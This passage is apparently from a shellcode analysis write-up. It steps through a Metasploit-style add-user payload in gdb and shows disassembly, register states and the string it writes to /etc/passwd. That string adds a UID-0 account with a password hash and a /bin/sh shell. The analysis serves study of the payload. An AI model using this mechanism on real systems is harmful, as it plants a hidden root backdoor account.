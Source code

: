 #### Analyzing with gdb
Here we see that our assumptions were correct about these three instructions pushing the string `/etc//passwd/` onto the top of the `stack`.
```console
   0x8048079 <shellcode+15>:    push   0x64777373
   0x804807e <shellcode+20>:    push   0x61702f2f
   0x8048083 <shellcode+25>:    push   0x6374652f
=> 0x8048088 <shellcode+30>:    mov    ebx,esp
   0x804808a <shellcode+32>:    inc    ecx
   0x804808b <shellcode+33>:    mov    ch,0x4
   0x804808d <shellcode+35>:    int    0x80
   0x804808f <shellcode+37>:    xchg   ebx,eax
[------------------stack------------------------] 
0000| 0xbffff5a0 ("/etc//passwd")
```

Interestingly when using `nidasm` or `gdb$ disassemble` the instructions read as:

```console
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
```

Although when stepping through the shellcode with gdb, and looking at the instructions, we see that after the `call 0x53` it reads as:

```console
   0x8048090 <shellcode+38>:    call   0x80480bd <shellcode+83>
----------------------
=> 0x80480bd <shellcode+83>:    pop    ecx
   0x80480be <shellcode+84>:    mov    edx,DWORD PTR [ecx-0x4]
   0x80480c1 <shellcode+87>:    push   0x4
   0x80480c3 <shellcode+89>:    pop    eax
```

+ `pop ecx`
  - This puts the memory address of our user string into the `ecx` register.
  - This is to fufill the `const void *buf` arguement in the `write()` function.


```console
ECX: 0x8048095 (<shellcode+43>: ins    DWORD PTR es:[edi],dx)
gdb-peda$ x/s $ecx
0x8048095 <shellcode+43>:"metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀"
```

+ Here we can see that the address of the string on the stack is in the `ecx` register.
+ We use the `gdb` examine command `x` to see the string at the memory location.

At the time of the `write` systemcall, the relative registers are set to:
```console
EAX: 0x4
EBX: 0x7
ECX: 0x8048095 (<shellcode+43>: ins    DWORD PTR es:[edi],dx)
EDX: 0x28 ('(')
```
+ The `edx` register is set to `0x28` because this is the length of our string that will be added to the `/etc/passwd` file.
